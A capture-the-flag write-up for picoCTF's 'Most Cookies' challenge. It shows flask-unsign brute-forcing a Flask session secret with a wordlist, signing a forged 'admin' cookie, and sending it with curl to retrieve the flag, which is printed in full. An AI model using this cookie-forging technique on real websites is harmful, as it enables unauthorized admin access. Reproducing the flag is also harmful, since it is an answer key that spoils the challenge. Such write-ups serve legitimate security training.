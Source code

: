 ### Most Cookies
### Description 

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)
### Hint

- Have you heard of JWT?
- What is that cookie?

## Solución  1
```
root@LAPTOP-05MLJNS4:/home/octaviio/hack# flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-9NkA.iMbLJa6taepGz7zQEKApqCOrLi4" --wordlist Cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 21 attempts
'gingersnap'

root@LAPTOP-05MLJNS4:/home/octaviio/hack# flask-unsign --sign --cookie  "{'very_auth':'admin'}" --secret "gingersnap"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9UhQ.ZkFZG6S0boVZKarSQE4Jgqgl9RY

root@LAPTOP-05MLJNS4:/home/octaviio/hack# curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9UhQ.ZkFZG6S0boVZKarSQE4Jgqgl9RY"

	--dentro del html
	  <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_5f016958}</code></p>
        </div>


picoCTF{pwn_4ll_th3_cook1E5_5f016958}

```